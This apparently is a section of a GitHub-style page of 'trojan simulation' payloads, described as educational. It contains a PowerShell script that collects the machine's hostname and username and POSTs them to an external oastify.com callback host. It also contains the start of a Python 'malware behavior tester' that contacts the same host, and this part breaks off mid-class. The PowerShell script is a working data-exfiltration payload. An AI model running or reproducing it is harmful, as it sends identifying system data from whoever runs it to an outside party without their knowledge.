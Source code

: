 
## Example Payloads and Testing

### 🔍 Trojan Simulation Payloads
```powershell
# Command Shell Trojan Simulation (Educational Purpose)
# Test payload against target site
$target_site = "https://rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com"

# Test network connectivity
Test-NetConnection -ComputerName "rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com" -Port 80

# Simulate data exfiltration test
$test_data = @{
    'hostname' = $env:COMPUTERNAME
    'username' = $env:USERNAME
    'timestamp' = Get-Date
}

# Convert to JSON and test transmission
$json_data = $test_data | ConvertTo-Json
try {
    Invoke-WebRequest -Uri $target_site -Method POST -Body $json_data -ContentType "application/json"
    Write-Host "✅ Test payload transmission successful"
} catch {
    Write-Host "❌ Test payload transmission failed: $_"
}
```

### 🔬 Behavioral Analysis Script
```python
#!/usr/bin/env python3
import requests
import time
import os

class MalwareBehaviorTester:
    def __init__(self):
        self.target_site = "https://rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com"
        self.test_results = []
    
    def test_network_connectivity(self):
        """Test network connectivity to target site"""
        try:
            response = requests.get(self.target_site, timeout=10)
            result = {
                'test': 'network_connectivity',
                'status': 'success',
                'response_code': response.status_code,
                'response_time': response.elapsed.total_seconds()
            }
        except Exception as e:
            result = {
                'test': 'network_connectivity',
                'status': 'failed',
                'error': str(e)
            }
        
        self.test_results.append(result)
        print(f"Network test: {result['status']}")
        return result
    
```